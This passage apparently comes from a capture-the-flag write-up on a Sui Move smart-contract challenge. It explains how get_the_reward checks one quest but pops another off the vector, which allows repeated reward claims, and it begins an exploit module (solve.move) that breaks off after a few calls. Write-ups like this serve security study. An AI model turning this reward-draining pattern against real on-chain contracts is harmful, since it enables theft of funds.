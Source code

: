 It sets `player.power` to 10 and `quest.fight_status` to `WON` 

```rust
    public fun return_home(board: &mut QuestBoard, quest_id: u64) {
        let quest_to_finish = vector::borrow_mut(&mut board.quests, quest_id);
        assert!(quest_to_finish.fight_status == WON, WRONG_STATE);

        quest_to_finish.fight_status = FINISHED; // only quest.status
    }
```
`return_home` sets `fight_status` to `FINISHED` it status is `WON` ( can only be set in `fight_monster` function 

```rust
    #[allow(lint(self_transfer))]
    public fun get_the_reward(
        vault: &mut Vault<OTTER>,
        board: &mut QuestBoard,
        player: &mut Player,
        quest_id: u64,
        ctx: &mut TxContext,
    ) {
        let quest_to_claim = vector::borrow_mut(&mut board.quests, quest_id); 
        assert!(quest_to_claim.fight_status == FINISHED, WRONG_STATE);

        let monster = vector::pop_back(&mut board.quests); 

        let Monster {
            fight_status: _,
            reward: reward,
            power: _
        } = monster;

        let coins = coin::split(&mut vault.cash, (reward as u64), ctx); 
        coin::join(&mut player.coins, coins);
    }
```
`get_the_reward` function, It gets the quest status using `quest_id` and checks if it's `FINISHED`, then It gets monster object with `pop_back` method and `only` get reward from it and send that amount to user.

If the length of the quest is 1, it works correctly. However, if the length of the quest is greater than 1, the quest being checked and the quest from which the reward is being retrieved become different. Instead of removing the checked quest, the quest from the end of the vector is removed from the vector.

By leaving a quest with the `FINISHED` status at the front of the vector, we can repeatedly call the `find_a_monster` and `get_the_reward` functions without fighting the monster to earn 1337 gold.

`solve.move`
```rust
module solve::solve {

    // [*] Import dependencies
    use challenge::Otter::{Self, OTTER, Flag};
    use sui::random::Random;

    #[allow(lint(public_random))]
    public fun solve(
        _vault: &mut Otter::Vault<OTTER>,
        _questboard: &mut Otter::QuestBoard,
        _player: &mut Otter::Player,
        _r: &Random,
        _ctx: &mut TxContext,
    ) {
        Otter::find_a_monster(_questboard, _r, _ctx);
        Otter::buy_sword(_vault, _player, _ctx);
```